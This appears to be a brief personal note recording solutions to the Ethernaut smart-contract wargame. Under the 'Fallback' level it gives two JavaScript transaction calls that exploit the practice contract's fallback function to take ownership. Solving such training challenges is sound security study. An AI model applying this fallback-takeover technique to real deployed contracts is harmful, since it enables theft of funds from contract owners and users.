 ```yaml
---
tags:
  - TODO
---
```


# Ethernaut 刷题记录

## Fallback



```js
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})
await contract.sendTransaction({from: player, value: toWei('0.0001')})
```